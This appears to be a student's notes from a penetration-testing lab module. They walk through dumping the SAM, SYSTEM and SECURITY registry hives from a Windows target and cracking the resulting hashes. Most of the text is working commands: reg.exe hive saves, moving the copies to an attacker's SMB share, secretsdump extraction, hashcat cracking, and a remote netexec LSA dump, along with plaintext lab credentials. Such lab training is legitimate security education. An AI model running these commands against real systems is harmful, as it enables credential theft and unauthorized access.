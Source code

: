 # Attacking SAM, SYSTEM, and SECURITY
With administrative access to a Windows system, we can attempt to quickly dump the files associated with the SAM database, transfer them to our attack host, and begin cracking the hashes offline. Performing this process offline allows us to continue our attacks without having to maintain an active session with the target. Let's walk through this process together using a target host. Feel free to follow along by spawning the target box provided in this section.

## Registry hives
There are three registry hives we can copy if we have local administrative access to a target system, each serving a specific purpose when it comes to dumping and cracking password hashes.

Opening a RDP sesh to the target machine

```sh
xfreerdp /v:10.129.199.107 /u:Bob /p:HTB_@cademy_stdnt!
```

## Using reg.exe to copy registry hives
use reg.exe to save the registry hives
```cmd
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

## Creating a share with smbserver
create a share on our attacker machine
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1272997/
```

## Moving hive copies to share
move the files to our attacker machine share
```
C:\> move sam.save \\10.10.15.187\CompData
C:\> move security.save \\10.10.15.187\CompData
C:\> move system.save \\10.10.15.187\CompData
```

## Dumping hashes with secretsdump
dump the hashes with secretdump
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

save the hashes to a text file
```
sudo vim hashestocrack.txt
```

unzip wordlist
```
gunzip /usr/share/wordlists/rockyou.txt.gz
```
## Cracking hashes with Hashcat, Running Hashcat against NT hashes
run hashcat on the hashes
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
## Dumping LSA secrets remotely
```
netexec smb 10.129.131.154 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```